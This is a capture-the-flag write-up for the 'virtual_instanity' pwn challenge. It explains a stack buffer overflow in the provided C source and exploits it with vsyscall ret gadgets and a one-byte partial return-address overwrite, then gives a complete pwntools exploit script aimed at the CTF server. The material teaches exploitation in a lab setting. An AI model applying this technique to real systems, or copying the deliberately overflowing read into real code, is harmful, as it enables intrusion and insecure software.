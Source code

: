 ![Screenshot 2025-02-26 113030](https://github.com/user-attachments/assets/fd4721d4-694d-45c0-9e46-d799995012e0)
\
I didn't solve this problem on time but i think this problem really testing our fundamental understanding in pwning (IMO). We will see why.

# NOTE :
Author said there's no need of bruteforcing in this challenge and also the challenge is not dependent in libc.
And also if **vsyscall** is not enabled in your machine please refer to [this](https://helpcenter.onlyoffice.com/installation/mail-enabling-vsyscall.aspx) article.

# Technique = Ret2win (with **vsyscall** gadget)

## 1. Checking given file.
Given a zip file that contains 2 files which are _chall_ and _src.c_
```c
#include <stdlib.h>
#include <stdio.h>
#include <string.h>
#include <unistd.h>

void win() {
    printf("IMPOSSIBLE! GRAHHHHHHHHHH\n");
    puts(getenv("FLAG"));
}

int main() {
    char buf[0x20];
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);

    puts("You pathetic pwners are worthless without your precious leaks!!!");
    read(0, buf, 0x50);
}
```

Checking binary protection.
```bash
[*] '/home/relster/Desktop/ctf/trx/pwn/virtual_instanity/dist/chall'
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        PIE enabled
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
```

As we can see this challenge looks pretty simple at first glance, it looks like a simple ret2win challenge. But the problem now is, how do we return to the win function? there's no leak and PIE is enabled. The short answer is we can make use of the gadget available at _vsyscall_, so the gadget that we're gonna need is just a simple _ret_ gadget and we can find that by jumping to _vsyscall_'s address which located at fixed address at _0xffffffffff600000_, the instructions is somewhat look like this:
```asm
__vsyscall_page:
    mov $__NR_gettimeofday, %rax
    syscall
    ret
```
Now we have a _ret_ gadget, so the next technique is partially overwriting the return address in stack to win() function. We will see clearly what i mean below.


## 2. Analyzing Binary in GDB.
First let's set breakpoints at these addresses to check the stack before and after we send our junk input:
![Screenshot 2025-02-27 015002](https://github.com/user-attachments/assets/f67c20ea-2bcf-405e-b7cc-48be49f90791)

Stack layout **before** junk input:
![Screenshot 2025-02-27 015556](https://github.com/user-attachments/assets/36810dd3-6fad-48e2-8835-75161f019bbe)

Stack layout **after** junk input:
![Screenshot 2025-02-27 015738](https://github.com/user-attachments/assets/64680289-0fff-4d1f-9bc9-d7b5b8eef4a1)
\
![Screenshot 2025-02-27 015823](https://github.com/user-attachments/assets/b26de687-6045-49bb-8536-f356dbacf302)

We can see our junk input (**0x41**s) are there on the stack.

Now let's put our attention at these addresses: \
**0x00007ffff7dd4d68** <-- __libc_start_call_main+120 \
**0x00005555555551da** <-- main 
![image](https://github.com/user-attachments/assets/f902b87e-d92b-4aaa-9259-f7cf7c23c152)

So the buffer is 0x20 (32 bytes) + 8 bytes (RBP) and the 41st byte is the rip, here we can just put the address of _vsyscall_ twice until it reaches the address **0x00005555555551da** which located on the stack as well. \
![image](https://github.com/user-attachments/assets/a1afad91-040c-4ddd-83c8-83e38f0fe04e)

After that we just need to partially overwrite 1 more byte to the **main** function that located there, we will overwrite it with they byte '**\xa9**', why? let's take a look at the image below: \
![image](https://github.com/user-attachments/assets/5ce719d9-ddbc-44bb-bb76-c336693a46d2) \
Since the address of **main** and **win** is only different at their last 1 byte, we can just overflow that '**\xa9**' so that the address of **main** gets overwrite with **win**.

Let's first setup the fake flag in our environment variable for testing the exploit. We'll call the env as **FLAG** like in the binary itself.
```bash
export FLAG="FLAG{fake_flag_DEADBEEF}"
```

## 3. Final Exploit
```python
#!/usr/bin/env python

from pwn import *

context.arch = 'amd64'
#context.log_level = 'DEBUG'

TARGET = './chall'
HOST = 'virtual.ctf.theromanxpl0.it'
PORT = 7011

elf = ELF(TARGET)
#libc = ELF('./libc.so.6')
#ld = ELF("./ld-2.27.so")

if not args.REMOTE:
  p = process(TARGET)
else:
  p = remote(HOST, PORT)

gdb_script = f"""
    break *main
"""
#gdb.attach(p, gdbscript=gdb_script)

# ===================================== #

"""
0xffffffffff600000 0xffffffffff601000 r-xp     1000      0 [vsyscall]

0xffffffffff600000:  mov    rax,0x60
0xffffffffff600007:  syscall
0xffffffffff600009:  ret
"""

p.recvline()

payload = b'A' * 0x28
payload += p64(0xffffffffff600000) * 2
payload += b'\xa9'

p.send(payload)

p.interactive()
p.close()

# NOTE:
# ret2win (with vsyscall gadget)
```

## 4. Result
Local:
![Screenshot 2025-02-27 024937](https://github.com/user-attachments/assets/dddafed0-2ee5-4c95-b41f-e4d47a629d45)

Remote:
![Screenshot 2025-02-27 025009](https://github.com/user-attachments/assets/3ce2606c-1a1a-4309-b8a9-fccea68ae38f)


## Keyword
ret2win \
vsyscall \
partial address overwrite
